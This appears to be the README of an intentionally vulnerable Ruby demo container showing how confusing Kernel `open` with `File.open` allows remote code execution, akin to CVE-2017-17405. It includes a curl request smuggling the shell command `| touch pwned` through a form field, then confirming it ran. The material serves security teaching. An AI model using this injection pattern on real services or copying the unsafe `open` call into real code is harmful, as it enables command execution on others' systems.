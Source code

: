 ### Ruby `open` vs. `File.open` mismatch

- Possible name confusion between two ruby native functions may lead to RCE
- This is similar to the root cause in [CVE-2017-17405][1] (see also [this blog][2])

### Installation

```bash
$ docker build --tag host.ruby_open --file Dockerfile .
$ docker run -p 8004:3000 -d -t --name ruby_open host.ruby_open

# let's send a GET request to make sure everything starts fine
$ curl -X GET http://127.0.0.1:8004/status
Everything seems fine # <--- good !

# send vulnerable payload
$ curl -X POST -F "source=\"| touch pwned\"" http://127.0.0.1:8004/vuln
>> 0

# make sure code was executed
$ curl -X GET http://127.0.0.1:8004/status
You've been pwned ! # <--- good !
```

[1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17405
[2]: https://blog.heroku.com/identifying-ruby-ftp-cve
